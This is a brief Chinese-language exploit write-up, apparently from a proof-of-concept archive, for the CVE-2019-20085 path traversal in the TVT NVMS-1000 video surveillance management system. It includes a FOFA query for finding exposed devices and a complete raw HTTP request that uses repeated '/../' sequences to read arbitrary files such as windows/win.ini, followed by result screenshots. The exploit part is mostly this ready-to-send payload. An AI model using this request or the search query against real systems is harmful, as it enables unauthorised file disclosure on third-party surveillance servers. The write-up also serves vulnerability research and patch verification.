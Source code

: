 # TVT数码科技 NVMS-1000 路径遍历漏洞(CVE-2019-20085)

# 一、漏洞简介
TVT数码科技 TVT NVMS-1000是中国TVT数码科技公司的一套网络监控视频管理系统。 TVT数码科技 TVT NVMS-1000中存在路径遍历漏洞。远程攻击者可通过发送包含/../的特制URL请求利用该漏洞查看系统上的任意文件。

# 二、影响版本
+ TVT NVMS-1000  


# 三、资产测绘
+ fofa`app="TVT-NVMS-1000"`
+ 特征

![1700225511766-2bbf4f4e-08c7-44c3-89a3-c132169c3127.png](./img/Yw6sGgPk7TOHxl5U/1700225511766-2bbf4f4e-08c7-44c3-89a3-c132169c3127-078553.png)

# 四、漏洞复现
```plain
GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: dataPort=6063
Upgrade-Insecure-Requests: 1
```

![1700225536790-2040e948-45dc-49ff-a5c2-8d01291eefc6.png](./img/Yw6sGgPk7TOHxl5U/1700225536790-2040e948-45dc-49ff-a5c2-8d01291eefc6-317687.png)



> 更新: 2024-02-29 23:57:13  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/rpuprdcoqll62nfc>